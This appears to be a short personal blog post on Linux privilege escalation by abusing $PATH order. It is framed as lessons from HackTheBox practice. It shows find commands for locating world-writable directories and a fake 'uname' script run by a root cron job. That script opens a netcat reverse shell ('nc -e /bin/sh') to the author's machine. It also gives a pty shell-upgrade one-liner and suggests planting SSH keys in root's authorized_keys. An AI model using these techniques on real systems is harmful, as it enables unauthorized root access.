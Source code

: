```yaml
---
layout: post
title:  "$PATH and Linux privilege escalation"
description: "A note concerning privilege escalation in Linux by abusing path priorities."
tag: linux, privesc
---
```


# Path priority is important

A short note on why write permission could be a recipe for disaster.

When Linux is looking for a path to execute binary called like:

```console
marek@marek-mint:~$ python
Python 2.7.15+ (default, Nov 27 2018, 23:36:35) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```
It will check paths in order defined in PATH environmental variable, like this:

```console
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

So from left to right:

```console
marek@marek-mint:~$ file /usr/local/bin/python
/usr/local/bin/python: cannot open `/usr/local/bin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/sbin/python
/usr/sbin/python: cannot open `/usr/sbin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/bin/python
/usr/bin/python: symbolic link to python2.7
```
Found a symlink, executes, the actual binary is:

```console
marek@marek-mint:~$ readlink -f /usr/bin/python
/usr/bin/python2.7
```

Apparently there.

# Privilege escalation

This method may be used to escalate privileges if our user has write permission to a directory another user or even root executed binaries from. So if let's say root executes a perl script and we can't tamper with the script maybe we can tamper with the interpreter binary itself. If it's possible to replace the binary with eg. a bash script with commands to execute, they will execute as root and escalate privileges this way.

There may be a situation we don't even have to overwrite the binary, because if we put a malicious script named "perl" in a location that takes precedence in the PATH eg. */usr/local/sbin/perl* then it will be executed instead. Always look for writable locations during privilege escalation attempts.

Finding writable locations:
```console
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders
```
Source: [g0tm1k](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)

So there was a script running as root with cron calling "uname". I created an executable script:

```console
user@remotemachine:~$ cat uname
#!/bin/sh

nc -e '/bin/sh' 10.0.0.3 9001
```
which would create a reverse shell as root to my local machine 10.0.0.3 listening on port 9001. 

```console
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.0.0.3] from (UNKNOWN) [10.0.0.4] 38682
whoami
root
```

Most of the time it's a good idea to upgrade shell like this:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
Of course nc might have not been installed on the remote box but any available command may be called as root this way. You may for example push your public key to authorized_keys of another user or root and login with SSH.

I've learned this during my [HackTheBox](https://hackthebox.eu) hacking attempts, a platform which I recommend as it has a great number of machines and challenges and a supportive community.

